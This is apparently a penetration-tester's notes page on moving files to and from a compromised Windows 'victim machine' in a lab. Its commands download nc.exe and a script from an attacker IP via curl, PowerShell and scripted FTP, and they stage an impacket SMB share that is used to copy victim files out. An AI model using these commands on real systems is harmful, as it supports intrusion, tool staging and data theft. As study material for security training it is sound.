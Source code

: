 ```yaml
---
description: >-
  Windows File Transfer various techniques
title: Windows File Transfer              # Add title here
date: 2023-01-29 08:00:00 -0600                           # Change the date to match completion date
categories: [03 File Transfer, Windows - File Transfer]                     # Change Templates to Writeup
tags: [file transfer, windows upload, windows download]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Upload

Netcat execution for windows.
From victim machine:
```powershell
curl http://10.10.16.4/nc.exe -o nc.exe
```
Examples:
[[StreamIO#^40a776]]

### Network File System through SMB
First create with impacket the server locally on attacker machine:
```bash
impacket-smbserver shareFolder $(pwd) -smb2support
```
Then you can access directly to this folder from the file explorer itself, by putting the address on the search bar:
```bash
\\192.168.119.186\shareFolder
```
![Description](/assets/img/Pasted-image-20220907003801.png)
If by any chance we get the following error:
![Description](/assets/img/Pasted-image-20230129045937.png)
We need to create a share with authentication to mount our share in the victim machine as another NFS:
```bash
impacket-smbserver shareFolder $(pwd) -smb2support -username shuciran -password shuciran123
```
Next, to mount it on a NFS on the victim machine we execute the following command:
```bash
net use x: \\10.10.14.4\shareFolder /user:shuciran shuciran123
```
Then we can check if the x:\ NFS is mounted:
```bash
dir x:\
```

### Powershell
```powershell
powershell Invoke-WebRequest -Uri http://10.10.119.207/GetCLSID.ps1 -Outfile GetCLSID.ps1
```

# Download

### SMB
To download files from the victim machine all you need to do is to copy within the SMB Shared Folder:
```powershell
copy <file> \\192.168.119.186\shareFolder
```

### Non-Interactive FTP Download
For installation and setup on attack machine please refer to [[FTP Server]]
First, we will place a file in our /ftphome directory:
```bash
kali@kali:~$ sudo cp /usr/share/windows-resources/binaries/nc.exe /ftphome/
```
We have already installed and configured Pure-FTPd on our Kali machine, but we will restart it to make sure the service is available:
```bash
kali@kali:~$ sudo systemctl restart pure-ftpd
```
Next execute following command:
```powershell
echo open 192.168.243.142 21> ftp.txt && echo USER offsec>> ftp.txt && echo password>> ftp.txt && echo bin >> ftp.txt && echo GET nc.exe >> ftp.txt && echo bye >> ftp.txt
```
Initiate FTP with commands on it:
```bash
C:\Users\offsec> ftp -v -n -s:ftp.txt
```
When the ftp command runs, our download should have executed, and a working copy of nc.exe should appear in our current directory:
```bash
C:\Users\offsec> ftp -v -n -s:ftp.txt
open 192.168.1.31 21
USER offsec
bin
GET nc.exe
bye
```



